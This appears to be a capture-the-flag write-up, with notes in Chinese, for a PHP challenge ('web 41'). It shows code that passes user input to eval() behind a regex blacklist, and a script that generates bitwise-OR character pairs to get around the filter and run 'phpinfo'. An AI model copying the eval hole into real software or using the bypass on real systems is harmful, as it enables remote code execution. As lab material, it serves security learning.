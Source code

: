 ## web 41

```php
<?php
if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}
?>
```

- 过滤数字、字母、^、+、~、$、[、]、{、}、&、-【不区分大小写】
- `&` 按位与 `|`按位或 `^` 按位异或 `~`取反 为四大位运算符，其中按位异`|`没有过滤，过滤的字符是防异或、自增和取反构造字符

```python
<?php
$payload = 'phpinfo';
$length = strlen($payload);
$a = '';
$b = '';
$flag = 0;
echo '<br>';
for ($l = 0; $l < $length; $l++) {
    $flag=0;
    for ($i = 1; $i < 256; $i++) {
        if(preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i',chr($i))) continue;
        for ($j = 1; $j < 256; $j++) {
            if(preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i',chr($j))) continue;
            if ((chr($i) | chr($j)) === $payload[$l]) {
                echo urlencode(chr($i));
                $a=$a.urlencode(chr($i));
                echo '|';
                echo urlencode(chr($j));
                $b=$b.urlencode(chr($j));
                echo '=' . $payload[$l];
                echo "<br>";
                $flag=1;
                break;
            }
        }
        if($flag===1){
            break;
        }
    }
}

echo $a.'|'.$b;
```

